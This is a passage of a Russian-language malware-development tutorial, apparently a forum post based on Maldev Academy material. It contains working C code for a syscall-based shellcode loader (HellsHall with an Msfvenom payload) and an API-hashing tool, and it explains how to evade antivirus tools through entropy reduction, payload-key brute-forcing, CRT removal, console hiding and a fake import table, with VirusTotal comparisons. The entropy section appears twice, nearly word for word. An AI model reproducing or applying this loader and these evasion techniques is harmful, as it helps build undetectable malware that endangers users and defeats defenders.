printf("[+] Syscall Number Of NtAllocateVirtualMemory Is : 0x%0.2X \n", g_Nt.NtAllocateVirtualMemory.dwSSn);
if (!FetchNtSyscall(NtProtectVirtualMemory_CRC32, &g_Nt.NtProtectVirtualMemory)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtProtectVirtualMemory \n");
return FALSE;
}
printf("[+] Syscall Number Of NtProtectVirtualMemory Is : 0x%0.2X \n", g_Nt.NtProtectVirtualMemory.dwSSn);
if (!FetchNtSyscall(NtCreateThreadEx_CRC32, &g_Nt.NtCreateThreadEx)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtCreateThreadEx \n");
return FALSE;
}
printf("[+] Syscall Number Of NtCreateThreadEx Is : 0x%0.2X \n", g_Nt.NtCreateThreadEx.dwSSn);
if (!FetchNtSyscall(NtWaitForSingleObject_CRC32, &g_Nt.NtWaitForSingleObject)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtWaitForSingleObject \n");
return FALSE;
}
printf("[+] Syscall Number Of NtWaitForSingleObject Is : 0x%0.2X \n", g_Nt.NtWaitForSingleObject.dwSSn);
return TRUE;
}NtAllocateVirtualMemory_CRC32, NtProtectVirtualMemory_CRC32, NtCreateThreadEx_CRC32 и NtWaitForSingleObject_CRC32 - это хэш-значения соответствующих системных вызовов.
Программа Hasher
Хэши системных вызовов генерируются с использованием программы Hasher, которая содержит функцию хеширования crc32h. Hasher печатает значения вывода функции crc32h.
C:
#include <Windows.h>
#include <stdio.h>
#define SEED 0xEDB88320
#define STR "_CRC32"
unsigned int crc32h(char* message) {
int i, crc;
unsigned int byte, c;
const unsigned int g0 = SEED, g1 = g0 >> 1,
g2 = g0 >> 2, g3 = g0 >> 3, g4 = g0 >> 4, g5 = g0 >> 5,
g6 = (g0 >> 6) ^ g0, g7 = ((g0 >> 6) ^ g0) >> 1;
i = 0;
crc = 0xFFFFFFFF;
while ((byte = message[i]) != 0) { // Get next byte.
crc = crc ^ byte;
c = ((crc << 31 >> 31) & g7) ^ ((crc << 30 >> 31) & g6) ^
((crc << 29 >> 31) & g5) ^ ((crc << 28 >> 31) & g4) ^
((crc << 27 >> 31) & g3) ^ ((crc << 26 >> 31) & g2) ^
((crc << 25 >> 31) & g1) ^ ((crc << 24 >> 31) & g0);
crc = ((unsigned)crc >> 8) ^ c;
i = i + 1;
}
return ~crc;
}
#define HASH(API) crc32h((char*)API)
int main() {
printf("#define %s%s \t 0x%0.8X \n", "NtAllocateVirtualMemory", STR, HASH("NtAllocateVirtualMemory"));
printf("#define %s%s \t 0x%0.8X \n", "NtProtectVirtualMemory", STR, HASH("NtProtectVirtualMemory"));
printf("#define %s%s \t 0x%0.8X \n", "NtCreateThreadEx", STR, HASH("NtCreateThreadEx"));
printf("#define %s%s \t 0x%0.8X \n", "NtWaitForSingleObject", STR, HASH("NtWaitForSingleObject"));
}Главная функция
Сначала вызывается функция InitializeNtSyscalls, а затем вызываются системные вызовы для выполнения локальной инъекции кода с использованием shellcode из Msfvenom. Вызов системных вызовов выполняется с использованием сборочных функций SetSSn и RunSyscall, описанных ранее.
C:
int main() {
NTSTATUS STATUS = NULL;
PVOID pAddress = NULL;
SIZE_T sSize = sizeof(Payload);
DWORD dwOld = NULL;
HANDLE hProcess = (HANDLE)-1, // локальный процесс
hThread = NULL;
// Инициализация используемых системных вызовов
if (!InitializeNtSyscalls()) {
printf("[!] Failed To Initialize The Specified Direct-Syscalls \n");
return -1;
}
// Выделение памяти
SetSSn(g_Nt.NtAllocateVirtualMemory.dwSSn);
if ((STATUS = RunSyscall(hProcess, &pAddress, 0, &sSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) != 0x00 || pAddress == NULL) {
printf("[!] NtAllocateVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
return -1;
}
// Копирование полезной нагрузки
memcpy(pAddress, Payload, sizeof(Payload));
sSize = sizeof(Payload);
// Изменение защиты памяти
SetSSn(g_Nt.NtProtectVirtualMemory.dwSSn);
if ((STATUS = RunSyscall(hProcess, &pAddress, &sSize, PAGE_EXECUTE_READ, &dwOld)) != 0x00) {
printf("[!] NtProtectVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
return -1;
}
// Выполнение полезной нагрузки
SetSSn(g_Nt.NtCreateThreadEx.dwSSn);
if ((STATUS = RunSyscall(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, FALSE, NULL, NULL, NULL, NULL)) != 0x00) {
printf("[!] NtCreateThreadEx Failed With Error: 0x%0.8X \n", STATUS);
return -1;
}
// Ожидание выполнения полезной нагрузки
SetSSn(g_Nt.NtWaitForSingleObject.dwSSn);
if ((STATUS = RunSyscall(hThread, FALSE, NULL)) != 0x00) {
printf("[!] NtWaitForSingleObject Failed With Error: 0x%0.8X \n", STATUS);
return -1;
}
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Ещё более улучшенную версию можно скачать здесь:GitHub - Maldev-Academy/HellHall: Performing Indirect Clean Syscalls
Или с нашего ресурса:https://osint42.org/attachments/hellshall-clang-nocrt-zip.260/
В этой версии убрана инструкция syscall, по наличию которой в коде может-быть детект.)
Как это работает
HellsHall будет искать инструкцию системного вызова около адреса функции системного вызова, а затем сохранит этот адрес инструкции системного вызова в глобальную переменную, к которой будет выполнен переход позднее, а не выполнение этой инструкции напрямую из asm-файла.
Это приведет к тому, что функция системного вызова будет выполнена из адресного пространства ntdll.dll.
Пример использования, в главной функции (HellHall/Hell'sHall/Hell'sHall/main.c at main · Maldev-Academy/HellHall):
C:
int main() {
printf("[i] [HELL HALL] Press <Enter> To Run ... ");
getchar();
if (!Initialize())
return -1;
PVOID pAddress = NULL;
SIZE_T dwSize = sizeof(rawData);
DWORD dwOld = NULL;
HANDLE hThread = NULL;
NTSTATUS STATUS = NULL;
SYSCALL(S.NtAllocateVirtualMemory);
if ((STATUS = HellHall((HANDLE)-1, &pAddress, 0, &dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) != 0x0) {
printf("[!] NtAllocateVirtualMemory Failed With Status : 0x%0.8X\n", STATUS);
return -1;
}
printf("[+] [HELL HALL] pAddress : 0x%p \n", pAddress);
memcpy(pAddress, rawData, sizeof(rawData));
SYSCALL(S.NtProtectVirtualMemory);
if ((STATUS = HellHall((HANDLE)-1, &pAddress, &dwSize, PAGE_EXECUTE_READ, &dwOld)) != 0x0) {
printf("[!] NtProtectVirtualMemory Failed With Status : 0x%0.8X\n", STATUS);
return -1;
}
SYSCALL(S.NtCreateThreadEx);
if ((STATUS = HellHall(&hThread, 0x1FFFFF, NULL, (HANDLE)-1, pAddress, NULL, FALSE, NULL, NULL, NULL, NULL)) != 0x0) {
printf("[!] NtCreateThreadEx Failed With Status : 0x%0.8X\n", STATUS);
return -1;
}
printf("[#] [HELL HALL] Press <Enter> To QUIT ... \n");
getchar();
return 0;
}В целом алгоритм использования почти такой-же как описанный выше, но следующие отличия:
1)Алгоритм хеширования crc32b.
3)Вместо функции SetSSn макрос SYSCALL (Вызов немного другой, но по коду главной функции думаю понятно как )
2)Вместо функции RunSyscall функция HellHall
Уменьшение вероятности детекта зверька
Введение
Энтропия относится к степени случайности в предоставленном наборе данных. Существует различные типы мер энтропии, такие как энтропия Гиббса, энтропия Больцмана и энтропия Реньи. Однако в контексте кибербезопасности термин "энтропия" обычно относится к Энтропии Шеннона, которая выдает значение от 0 до 8. С увеличением уровня случайности в наборе данных увеличивается и значение энтропии.
Бинарные файлы вредоносных программ обычно имеют более высокое значение энтропии по сравнению с обычными файлами. Высокая энтропия, как правило, является индикатором сжатых, зашифрованных или упакованных данных, которые часто используются вредоносными программами для скрытия нагрузки. Сжатые, зашифрованные или упакованные данные часто генерируют большое количество случайного вывода, что объясняет, почему энтропия выше в файлах с вредоносными программами.
На рисунке ниже сравнивается энтропия легитимного программного обеспечения и образцов вредоносных программ. Обратите внимание, как у большинства файлов с вредоносными программами значение энтропии находится в диапазоне от 7,2 до 8, в то время как безвредные файлы в основном находятся в диапазоне от 5,6 до 6,8. Изображение взято из статьи Threat Hunting with File Entropy, которая показывает, как использовать энтропию файла для поиска угроз.
С этим сказанным, целью данного раздела является уменьшение энтропии вредоносного файла и размещение его в приемлемом диапазоне, подобном безвредному файлу.
Измерение энтропии файла
Для понимания того, как уменьшить энтропию файла, важно сначала понять, как ее вычислить. Существует несколько инструментов, которые могут определить энтропию данного файла, таких как pestudio и Sigcheck.
Однако ради простоты, в коде, предоставленном в этом разделе, есть файл на Python, EntropyCalc.py, который вычисляет энтропию файла. Кроме того, с помощью этого скрипта на Python можно вычислить энтропию разделов PE-файла с помощью флага -pe.
Следующее изображение показывает файл EntropyCalc.py в действии.
EntropyCalc.py
EntropyCalc.py использует функцию calc_entropy для вычисления энтропии указанных данных в буфере. Эта функция использует формулу энтропии Шеннона для вычисления значения энтропии.
Уменьшение энтропии
Как уже упоминалось ранее, файл с вредоносными программами обычно содержит данные, которые часто обфусцированы или закодированы способом, который увеличивает их энтропию. Для решения этой проблемы одним из решений является изменение используемого алгоритма шифрования, так как некоторые алгоритмы шифрования генерируют более высокую энтропию для своих данных в виде шифротекста, чем другие.
Например, использование шифрования XOR с одним байтом не изменяет общей энтропии выходных данных. Недостатком этого алгоритма является то, что он считается слабым алгоритмом шифрования.
Другим эффективным методом для поддержания низкой энтропии является использование алгоритмов обфускации, объясненных в начальных статьях, таких как IPv4fuscation, IPv6fuscation, Macfuscation и UUIDfuscation, вместо использования алгоритмов шифрования. Эти методы обфускации выводят данные, которые имеют степень организации и порядка. Поэтому похожие байтовые узоры в наборе данных будут иметь более низкие значения энтропии по сравнению с набором данных с полностью случайными байтами.
Вставка английских строк
Другим методом для уменьшения энтропии является вставка английских строк в код окончательной реализации. Эта техника была замечена в различных образцах вредоносных программ, где в код вставляется случайный набор английских строк. Это работает потому, что английский алфавит состоит всего из 26 символов, что означает, что есть всего 26 * 2 (верхний и нижний регистр букв) разных возможностей для каждого байта. Это меньше, чем количество возможностей, которые выдают алгоритмы шифрования (255 возможностей). Если вы хотите использовать эту технику, рекомендуется использовать либо только строчные, либо только прописные буквы, чтобы уменьшить количество возможностей для каждого байта.
Сказав это, следует отметить, что такой подход не рекомендуется, потому что строки, вставленные в реализацию, могут быть использованы впоследствии в качестве сигнатур для обнаружения вредоносного программного обеспечения.
Дополнение одинаковыми байтами
Более простым способом уменьшения энтропии является дополнение шифротекста полезной нагрузки одинаковым байтом. Это работает потому, что добавленные байты будут иметь энтропию 0,00, так как они все одинаковы.
Например, на следующем изображении показано, как энтропия шелл-кода Msfvenom резко снижается с 5,88325 до 3,77597 после добавления к нему 285 байтов 0xEA.
Недостатком этого подхода является увеличение размера полезной нагрузки. Более крупные нагрузки потребуют больше байтов, что также увеличит размер.
Независимость от библиотеки CRT Библиотека CRT, или C Runtime library, представляет собой стандартный интерфейс для языка программирования C, который содержит набор функций и макросов. Эти функции обычно связаны с управлением памятью (например, memcpy), открытием и закрытием файлов (например, fopen) и манипулированием строками (например, strcpy).
Удаление библиотеки CRT
Может значительно уменьшить энтропию окончательной реализации. На следующем изображении сравниваются два файла, Hello World.exe и Hello World - No CRT.exe, которые имеют одинаковый код, но скомпилированы с и без библиотеки CRT. Hello World - No CRT.exe имеет значительно более низкое значение энтропии по сравнению с Hello World.exe.
Инструмент Maldev Academy - EntropyReducer
Также можно уменьшить энтропию полезной нагрузки с помощью инструмента EntropyReducer, разработанного командой MalDev Academy.
EntropyReducer использует собственный алгоритм, который использует связанные списки для вставки нулевых байтов между каждым блоком полезной нагрузки размером BUFF_SIZE.
Объяснение связанных списков выходит за рамки данной статьи, однако хорошо документированный readme и хорошо прокомментированный код в репозитории должны быть достаточными для понимания алгоритма инструмента.
Брут ключа дешифровки полезной нагрузки
Введение
В начальных статьях демонстрировались процессы шифрования и дешифрования данных, а также предупреждалось о том, что сохранение ключа шифрования в виде открытого текста в бинарном файле делает его легкодоступным. Один из способов решить эту проблему - шифровать ключ другим ключом и расшифровывать его во время выполнения программы. Чтобы избежать жесткой привязки ключа к бинарному файлу, ключ получается методом "грубой силы".
В этом модуле будет продемонстрирован алгоритм дешифрования XOR, при котором программа должна угадать ключ методом "грубой силы".
Процесс шифрования ключа
Для выполнения "грубой силы" при дешифровании ключа необходим байт-подсказка в функциях шифрования и дешифрования. Знание значения одного байта до и после процесса шифрования позволяет осуществить процесс дешифрования. В данном случае первый байт выбран в качестве байта-подсказки.
Например, если байт-подсказка - BA, а после шифрования он становится равным 71, то процесс дешифрования будет перебирать значения до тех пор, пока не будет получено значение BA, что указывает на правильный ключ.
Функция шифрования ключа
Функция GenerateProtectedKey принимает байт-подсказку и добавляет его в начало ключа в виде первого байта. Затем она использует алгоритм XOR для шифрования ключа с использованием случайно сгенерированного ключа во время выполнения.
Обратите внимание, что функция PrintHex предназначена для вывода входного буфера в виде шестнадцатеричного массива и используется для вывода сгенерированного ключа в виде открытого текста.
Процесс дешифрования ключа
Поскольку ключ шифрования, используемый для шифрования ключа, не сохраняется нигде, функция дешифрования должна угадать значение b, показанное в функции GenerateProtectedKey. Для этого функция дешифрования будет выполнять операцию XOR с первым байтом ключа, который является байтом-подсказкой, с разными ключами до тех пор, пока полученный байт не станет равным байту-подсказке исходного ключа. Когда это происходит, функция узнает, что было выбрано правильное значение b. Фрагмент кода ниже демонстрирует эту логику.
Продолжая пример, когда 71 становится равным BA, это означает, что правильное значение b было угадано.
Функция дешифрования ключа
Функция BruteForceDecryption требует тот же байт-подсказку, которая передавалась в функцию шифрования.
Заключение
Несмотря на свою простоту, подход с использованием "грубой силы" может быть использован для защиты ключей от анализа вирусными аналитиками и исследователями, которые пытаются извлечь ключ из бинарного файла. Это заставляет их отлаживать бинарный файл, чтобы понять, как генерируется ключ, что может быть полезным при использовании методов антианализа.
Удаление библиотеки CRT
Введение
До этого раздела все проекты кода компилировались с использованием опции "Выпуск" или "Отладка" в Visual Studio.
Для разработчиков вредоносных программ важно понимать разницу между опциями компиляции "Выпуск" и "Отладка" в Visual Studio, а также последствия изменения настроек компилятора по умолчанию. Изменение настроек компилятора Visual Studio может повлиять на созданный двоичный файл, такое как уменьшение его размера или снижение энтропии.
Опция "Выпуск" против "Отладка"
Конфигурации сборки "Выпуск" и "Отладка" определяют, как программа компилируется и выполняется, и каждая из них выполняет свою задачу и предоставляет разные возможности. Наиболее важные различия между этими двумя опциями приведены ниже.
Производительность - Опция сборки "Выпуск" быстрее, чем опция "Отладка". В режиме выпуска включены оптимизации компиляции, которые отключены в режиме "Отладка".
Отладка - Отладка приложений, созданных с использованием конфигурации сборки "Отладка", упрощается, потому что в этом режиме отключены оптимизации компиляции, что делает код более доступным для отладки. Кроме того, конфигурация "Отладка" генерирует файлы символов отладки (.pdb), которые содержат информацию о скомпилированном исходном коде. Это позволяет отладчикам отображать дополнительную информацию, такую как переменные, функции и номера строк.
Развертывание - Версия "Выпуск" приложения используется из-за увеличенной совместимости с их компьютерами, в отличие от версии "Отладка", которая обычно требует дополнительных динамических библиотек (DLL), доступных только в Visual Studio, что делает отладочные приложения совместимыми только с компьютерами, на которых установлена Visual Studio.
Обработка исключений - В конфигурации сборки "Отладка" Visual Studio может приостанавливать выполнение и отображать сообщение об ошибке в виде окна сообщения, когда возникает исключение, указывая имя переменной или номер строки, вызвавших повреждение стека, например. Такие исключения могут привести к зависанию программы, если она скомпилирована в режиме "Выпуск".
Настройки компилятора по умолчанию
Исходя из предыдущих аспектов, опция "Выпуск" предпочтительнее опции "Отладка". Однако опция "Выпуск" все равно имеет несколько проблем.
Совместимость - Некоторые приложения, использующие опцию "Выпуск", всё равно могут вызывать ошибки, аналогичные приведенной ниже, если целевой компьютер не имеет установленной Visual Studio.
Импортируемые функции CRT - В таблице импорта (IAT) присутствуют несколько неразрешенных функций, которые невозможно разрешить с использованием методов, таких как API-хэширование. Эти функции импортируются из библиотеки CRT, что будет объяснено позже. Пока достаточно понимать, что в любом приложении, созданном настройками компилятора по умолчанию Visual Studio, есть несколько неиспользуемых импортированных функций. В качестве примера, IAT программы 'Hello World' должна импортировать информацию только о функции printf, однако она импортирует следующие функции (вывод сокращен из-за размера).
Размер - Сгенерированные файлы часто больше, чем они должны быть из-за оптимизаций компилятора по умолчанию. Например, следующая программа "Hello World" имеет размер около 11 килобайт.
Информация для отладки - Использование опции "Выпуск" все равно может включать информацию, связанную с отладкой, и другие строки, которые могут быть использованы средствами безопасности для создания статических сигнатур. На изображениях ниже показан результат выполнения программы Strings.exe для программы "Hello World" (вывод сокращен из-за размера).
Библиотека CRT
Библиотека CRT, также известная как Microsoft C Run-Time Library, представляет собой набор низкоуровневых функций и макросов, обеспечивающих базовую функциональность для стандартных программ на C и C++. Она включает функции управления памятью (например, malloc, memset и free), манипулирования строками (например, strcpy и strlen) и функции ввода-вывода (например, printf, wprintf и scanf).
DLL-файлы библиотеки CRT названы vcruntimeXXX.dll, где XXX - это номер версии используемой библиотеки CRT. Также существуют DLL-файлы, такие как api-ms-win-crt-stdio-l1-1-0.dll, api-ms-win-crt-runtime-l1-1-0.dll и api-ms-win-crt-locale-l1-1-0.dll, которые также связаны с библиотекой CRT. Каждая из этих DLL выполняет конкретные функции и экспортирует несколько функций. Эти DLL-файлы связываются компилятором на этапе компиляции и, следовательно, находятся в таблице импорта (IAT) созданных программ.
Решение проблем совместимости
По умолчанию, при компиляции приложения в Visual Studio, опция Runtime Library установлена на "Multi-threaded DLL (/MD)". С этой опцией DLL-файлы библиотеки CRT связываются динамически, что означает их загрузку во время выполнения. Это вызывает проблемы совместимости, о которых упоминалось ранее. Для их решения установите опцию Runtime Library на "Multi-threaded (/MT)", как показано ниже.
Multi-threaded (/MT)
Компилятор Visual Studio может быть настроен на статическую связь функций CRT, выбрав опцию "Multi-threaded (/MT)". Это приводит к тому, что функции, такие как printf, будут представлены напрямую в созданной программе, а не импортируются из DLL-файлов библиотеки CRT. Обратите внимание, что это увеличит размер конечного бинарного файла и добавит больше функций WinAPI в таблицу импорта, но удалит DLL-файлы библиотеки CRT.
Использование опции "Multi-threaded (/MT)" для компиляции программы "Hello World" приводит к следующей таблице импорта.

Размер бинарного файла также значительно увеличивается, как показано ниже.
Библиотека CRT и отладка
После удаления библиотеки CRT программа может быть скомпилирована только в режиме "Выпуск". Это делает отладку кода более сложной. Поэтому рекомендуется удалять библиотеку CRT только после завершения отладки и разработки.
Дополнительные изменения компилятора
Предыдущие разделы демонстрировали, как статически связать библиотеку CRT. Однако идеальным решением было бы избегать зависимости от библиотеки CRT как статически, так и динамически, так как это может привести к уменьшению размера бинарного файла и удалению ненужных импортированных функций и отладочной информации. Для этого необходимо внести изменения в несколько опций компиляции Visual Studio.
Отключение исключений C++
Опция Enable C++ Exceptions используется для генерации кода, который правильно обрабатывает исключения, выбрасываемые кодом. Однако, поскольку библиотека CRT больше не связана, эта опция не требуется и должна быть отключена.
Отключение оптимизации всей программы
Опция Whole Program Optimization должна быть отключена, чтобы предотвратить выполнение компилятором оптимизаций, которые могут повлиять на стек. Отключение этой опции предоставляет полный контроль над скомпилированным кодом.
Отключение отладочной информации
Отключите опции Generate Debug Info и Generate Manifest, чтобы удалить добавленную отладочную информацию.
Игнорирование всех библиотек по умолчанию
Установите опцию Ignore All Default Libraries на "Yes (/NODEFAULTLIB)", чтобы исключить связывание системных библиотек по умолчанию компилятором с программой. Это приведет к исключению связывания библиотеки CRT, а также других библиотек. В этом случае пользователь должен предоставить необходимые функции, которые обычно предоставляются этими библиотеками по умолчанию. На изображении ниже показано установление опции "Yes (/NODEFAULTLIB)".
К сожалению, компиляция с этой опцией приводит к ошибкам, как показано ниже.
Установка символа точки входа
Первая ошибка "LNK2001 - unresolved external symbol mainCRTStartup" указывает на то, что компилятор не смог найти определение символа "mainCRTStartup". Это ожидаемо, так как "mainCRTStartup" является точкой входа для программы, связанной с библиотекой CRT, что не имеет места в данном случае. Чтобы решить эту проблему, следует установить новый символ точки входа, как показано ниже.
Символ "main" представляет собой функцию main в исходном коде. Для выбора другой функции в качестве точки входа просто установите символ точки входа на имя этой функции. Повторная компиляция приводит к меньшему количеству ошибок, как показано ниже.
Отключение проверки безопасности
Следующая ошибка, "LNK2001 - unresolved external symbol __security_check_cookie", означает, что компилятор не нашел символ "__security_check_cookie". Этот символ используется для выполнения проверки стековой куки, которая является функцией безопасности, предотвращающей переполнение буфера стека. Чтобы решить эту проблему, установите опцию Security Check на "Disable Security Check (/Gs-)", как показано ниже.
Отключение проверок SDL
После отключения проверки безопасности ошибка исчезает, но появляется новое предупреждение.
Предупреждение "D9025 - overriding '/sdl' with '/GS-'" можно решить, отключив проверки Security Development Lifecycle (SDL).
Остаются две неразрешенные ошибки символов, которые решаются в разделе Замена функций библиотеки CRT ниже.
Замена функций библиотеки CRT
Из-за удаления библиотеки CRT остались две неразрешенные ошибки из-за использования функции printf для вывода на консоль, хотя библиотека CRT была удалена из программы.
При удалении библиотеки CRT необходимо написать собственные версии функций, такие как printf, strlen, strcat, memcpy. Для этой цели можно использовать библиотеки, например, VX-API. Например, StringCompare.cpp заменяет функцию strcmp для сравнения строк.
Замена функции Printf
Для демонстрационной программы, используемой в этом разделе, функция printf заменяется следующей макроинструкцией.
Макроинструкция PRINTA принимает два аргумента:
Создание вредоносного ПО, независимого от библиотеки CRT
При создании вредоносного программного обеспечения, которое не использует библиотеку CRT, следует учесть несколько моментов.
Использование внутренних функций
Некоторые функции и макросы в Visual Studio используют функции CRT для выполнения своих задач. Например, макрос ZeroMemory использует функцию CRT memset для заполнения указанного буфера нулями. Это требует от разработчика поиска альтернативы этому макросу, так как его нельзя использовать. В этом случае может использоваться функция из CopyMemoryEx.cpp в качестве замены.
Другим решением может быть ручное установление пользовательских версий функций, основанных на CRT, таких как memset. Это заставляет компилятор обрабатывать эту пользовательскую функцию вместо экспортированной версии CRT. Последовательно макросы, такие как ZeroMemory, также будут использовать эту пользовательскую функцию.
Для демонстрации этого можно указать пользовательскую версию функции memset компилятору следующим образом, используя ключевое слово intrinsic.
Скрытие окна консоли
Вредоносное программное обеспечение не должно создавать окно консоли при выполнении, так как это вызывает подозрение и позволяет пользователю завершить программу, закрыв окно. Для предотвращения этого можно использовать функцию ShowWindow(NULL, SW_HIDE) в начале функции точки входа, хотя это требует времени (в миллисекундах) и может вызвать заметное мерцание.
Лучшим решением является установка программы для компиляции как GUI-программы, установив опцию SubSystem Visual Studio в "Windows (/SUBSYSTEM:WINDOWS)".
Демонстрация
После выполнения всех описанных в этом разделешагов, получаются следующие результаты.
Во-первых, размер исполняемого файла уменьшается с 112,5 килобайт до примерно 3 килобайт.
Затем в IAT не обнаружено неиспользуемых функций.
В бинарном файле обнаружено меньше строк без отладочной информации.
Наконец, удаление библиотеки CRT приводит к меньшему детекту.
Файл загружается на VirusTotal дважды: первый раз с использованием опции "Multi-threaded (/MT)", чтобы статически связать библиотеку CRT, а второй раз после полного удаления библиотеки CRT.
IAT Camouflage
Введение
Удаление библиотеки C Runtime из конечного бинарного файла позволяет очистить IAT от неиспользуемых функций WinAPI. Однако это может вызвать подозрение, если бинарный файл импортирует очень мало функций WinAPI, особенно если это совмещается с хэшированием API, что может даже привести к отсутствию импортированных функций.
Для разработчика вредоносных программ важно, чтобы реализация вредоносного ПО выглядела нормально. Иметь реализацию с фиктивным IAT более эффективно, чем отсутствие импортированных функций. Этот модуль подробно рассмотрит эту концепцию.
Давайте начнем с бинарного файла с именем IatCamouflage.exe, который не использует библиотеку CRT и был скомпилирован аналогично тому, как показанно выше.
Когда бинарный файл выполняется, Process Hacker выделит процесс розовым цветом и отобразит заметку, когда мышь наводится на процесс. Process Hacker предполагает, что бинарный файл упакован из-за отсутствия импорта в IAT.
Убедитесь, что IatCamouflage.exe импортирует одну функцию с помощью dumpbin.exe.
Манипуляция IAT
Манипуляция IAT может быть легко выполнена с использованием доброжелательных WinAPI, которые не изменяют поведение программы. Это можно сделать, вызывая WinAPI с параметрами NULL или используя WinAPI на фиктивных данных, которые не повлияют на программу. Кроме того, эти функции могут размещаться в if-условиях, которые никогда не будут выполняться.
Тем не менее, некоторые компиляторы могут изменять ход выполнения кода с использованием оптимизации "удаление мертвого кода". Это свойство оптимизации компилятора для удаления кода, который не влияет на работу программы.
Пример удаления мертвого кода
В следующем фрагменте кода вызываются несколько функций WinAPI внутри if-условия, которое никогда не будет выполнено.
Если проект Visual Studio не имеет зависимости от библиотеки CRT и компилирует вышеуказанный код, то функции WinAPI не будут видны в IAT бинарного файла. Компилятор знает, что if-условие невозможно выполнить, и, следовательно, весь код if-условия не включается в скомпилированный бинарный файл, что приводит к тому, что функции WinAPI не будут в IAT бинарного файла. Существуют два способа решения этой проблемы:
Для этого метода необходимо просто отключить опцию оптимизации Visual Studio, как показано на изображении ниже. Это отключит свойство оптимизации компилятора "удаление мертвого кода", что приведет к тому, что функции WinAPI будут видны в IAT. Однако отключение оптимизации на более крупных программах может негативно сказаться на производительности, поскольку компилятор больше не оптимизирует эффективность и скорость кода. Поэтому программа может потреблять больше памяти или работать медленнее.
Обман компилятора
Для этого метода необходимо использовать логику, чтобы обмануть компилятор и заставить его думать, что if-условие может быть допустимым. В приведенном ниже фрагменте кода используется логика, которая делает сложно определить компилятору, будет ли if-условие выполняться, что заставляет его включить эту логику в скомпилированный бинарный файл, даже если if-условие никогда не будет удовлетворено.
Ниже приведены несколько моментов, чтобы облегчить понимание этого фрагмента кода.
Функция RandomCompileTimeSeed используется для генерации случайного значения во время компиляции с использованием макроса TIME.
Функция Helper выделяет кучу и устанавливает первые 4 байта равными значению RandomCompileTimeSeed() % 0xFF, что ограничивает значение числа, чтобы оно было меньше 0xFF (в шестнадцатеричной системе) или 255 (в десятичной системе).
Функция IatCamouflage содержит переменную A, которая является указателем на целое число и устанавливается равной первым четырем байтам буфера, возвращенного функцией Helper.
Поскольку функция Helper всегда будет возвращать значение меньше 255, if-условие if (*A > 350) всегда будет ложным. Здесь интересно то, что компилятор не знает об этом и, следовательно, включит эту логику в скомпилированный бинарный файл.
Результаты
Скомпилируйте приведенный выше фрагмент кода и проверьте IAT бинарного файла. Как и ожидалось, доброжелательные функции WinAPI внутри if-условия теперь видны.
Эти импортированные функции достаточно, чтобы сделать бинарный файл незаразным при статическом анализе. С другой стороны, вредоносные функции WinAPI должны быть удалены из IAT с использованием хэширования API.
Энтропия относится к степени случайности в предоставленном наборе данных. Существует различные типы мер энтропии, такие как энтропия Гиббса, энтропия Больцмана и энтропия Реньи. Однако в контексте кибербезопасности термин "энтропия" обычно относится к Энтропии Шеннона, которая выдает значение от 0 до 8. С увеличением уровня случайности в наборе данных увеличивается и значение энтропии.
Бинарные файлы вредоносных программ обычно имеют более высокое значение энтропии по сравнению с обычными файлами. Высокая энтропия, как правило, является индикатором сжатых, зашифрованных или упакованных данных, которые часто используются вредоносными программами для скрытия нагрузки. Сжатые, зашифрованные или упакованные данные часто генерируют большое количество случайного вывода, что объясняет, почему энтропия выше в файлах с вредоносными программами.
На рисунке ниже сравнивается энтропия легитимного программного обеспечения и образцов вредоносных программ. Обратите внимание, как у большинства файлов с вредоносными программами значение энтропии находится в диапазоне от 7,2 до 8, в то время как безвредные файлы в основном находятся в диапазоне от 5,6 до 6,8. Изображение взято из статьи Threat Hunting with File Entropy, которая показывает, как использовать энтропию файла для поиска угроз.
С этим сказанным, целью данного раздела является уменьшение энтропии вредоносного файла и размещение его в приемлемом диапазоне, подобном безвредному файлу.
Измерение энтропии файла
Для понимания того, как уменьшить энтропию файла, важно сначала понять, как ее вычислить. Существует несколько инструментов, которые могут определить энтропию данного файла, таких как pestudio и Sigcheck.
Однако ради простоты, в коде, предоставленном в этом разделе, есть файл на Python, EntropyCalc.py, который вычисляет энтропию файла. Кроме того, с помощью этого скрипта на Python можно вычислить энтропию разделов PE-файла с помощью флага -pe.
Следующее изображение показывает файл EntropyCalc.py в действии.
EntropyCalc.py
EntropyCalc.py использует функцию calc_entropy для вычисления энтропии указанных данных в буфере. Эта функция использует формулу энтропии Шеннона для вычисления значения энтропии.
Код:
def calc_entropy(buffer):
if isinstance(buffer, str):
buffer = buffer.encode()
entropy = 0
for x in range(256):
p = (float(buffer.count(bytes([x])))) / len(buffer)
if p > 0:
entropy += - p * math.log(p, 2)
return entropyУменьшение энтропии
Как уже упоминалось ранее, файл с вредоносными программами обычно содержит данные, которые часто обфусцированы или закодированы способом, который увеличивает их энтропию. Для решения этой проблемы одним из решений является изменение используемого алгоритма шифрования, так как некоторые алгоритмы шифрования генерируют более высокую энтропию для своих данных в виде шифротекста, чем другие.
Например, использование шифрования XOR с одним байтом не изменяет общей энтропии выходных данных. Недостатком этого алгоритма является то, что он считается слабым алгоритмом шифрования.
Другим эффективным методом для поддержания низкой энтропии является использование алгоритмов обфускации, объясненных в начальных статьях, таких как IPv4fuscation, IPv6fuscation, Macfuscation и UUIDfuscation, вместо использования алгоритмов шифрования. Эти методы обфускации выводят данные, которые имеют степень организации и порядка. Поэтому похожие байтовые узоры в наборе данных будут иметь более низкие значения энтропии по сравнению с набором данных с полностью случайными байтами.
Вставка английских строк
Другим методом для уменьшения энтропии является вставка английских строк в код окончательной реализации. Эта техника была замечена в различных образцах вредоносных программ, где в код вставляется случайный набор английских строк. Это работает потому, что английский алфавит состоит всего из 26 символов, что означает, что есть всего 26 * 2 (верхний и нижний регистр букв) разных возможностей для каждого байта. Это меньше, чем количество возможностей, которые выдают алгоритмы шифрования (255 возможностей). Если вы хотите использовать эту технику, рекомендуется использовать либо только строчные, либо только прописные буквы, чтобы уменьшить количество возможностей для каждого байта.
Сказав это, следует отметить, что такой подход не рекомендуется, потому что строки, вставленные в реализацию, могут быть использованы впоследствии в качестве сигнатур для обнаружения вредоносного программного обеспечения.
Дополнение одинаковыми байтами
